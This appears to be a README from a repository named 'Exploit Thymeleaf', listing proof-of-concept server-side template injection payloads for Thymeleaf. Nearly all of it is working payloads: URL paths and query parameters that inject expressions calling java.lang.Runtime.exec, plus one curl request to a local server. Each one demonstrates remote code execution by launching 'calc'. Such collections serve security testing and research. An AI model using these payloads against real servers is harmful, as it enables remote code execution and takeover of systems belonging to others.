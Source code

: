# Exploit Thymeleaf
Thymeleaf SSTI

# PoC
* `/path?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x`
* `/fragment?section=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x`
* `/doc/__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x`

* `/url?link=($%7bT(java.lang.Runtime).getRuntime().exec('calc')%7d)`
* `/message?msg=${T(java.lang.Runtime).getRuntime().exec('calc')}`
* `/selector?fieldName=T(java.lang.Runtime).getRuntime().exec('calc')`
* `/variable?fieldName=name eq T(java.lang.Runtime).getRuntime().exec('calc')`
* `/frag?section=${T(java.lang.Runtime).getRuntime().exec('calc')}`
* `curl "http://localhost:8080/(\$\{T(java.lang.Runtime).getRuntime().exec('calc')\})" -H 'Accept: text/html'`